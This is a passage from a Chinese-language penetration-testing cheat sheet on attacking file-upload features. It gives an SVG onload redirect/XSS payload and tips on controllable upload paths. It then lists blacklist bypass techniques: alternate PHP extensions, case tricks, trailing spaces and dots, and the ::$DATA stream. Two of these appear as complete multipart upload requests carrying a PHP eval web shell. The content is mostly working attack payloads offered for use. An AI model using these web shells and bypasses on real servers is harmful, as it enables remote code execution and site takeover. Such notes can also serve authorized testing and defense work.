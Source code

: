 存在文件上传的地方， 嵌套 xss 语句

将准备好了的图片 xss 上传，imge/png ,html.html.png

svg 重定向

```plain
<code>
<?xml version="1.0"encoding="UTF-8"standalone="yes"?>
<svg
onload"window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```

##### 路径可控

当上传的路径时候，如果不能上传解析路径，则可以尝试是否存路径可控

```plain
则原来是user_apply_file
修改后上传的路径为1/23/456/user_app_file
```

#### 绕过

###### 黑名单

```plain
phtml、pht、php、php3、php4、php5
```

###### 后缀大小写

此方法适合 **windows** 环境下，如果是 Php, 可以当做 php 来解析

###### 后缀名空绕过

```plain
那么php和php ，当然是不⼀样的
# filename="shell.png "
```

###### 后缀名为点绕过

```plain
#**windows**中有一个特性，会自动去掉后缀名的
------WebKitFormBoundary0BAvi6S3ETKPlJw4
Content-Disposition: form-data; name="upload_file"; filename="shell.php."
Content-Type: image/png
<?php eval($_REQUEST[8]);?>
------WebKitFormBoundary0BAvi6S3ETKPlJw4
```

###### ::$DATA

```plain
#windows文件流绕过
------WebKitFormBoundary6iEJqkiHLxaG6mxM
Content-Disposition: form-data; name="upload_file"; filename="shell.php:DATA"
Content-Type: image/png
<?php eval($_REQUEST[8]);?>
------WebKitFormBoundary6iEJqkiHLxaG6mxM
```
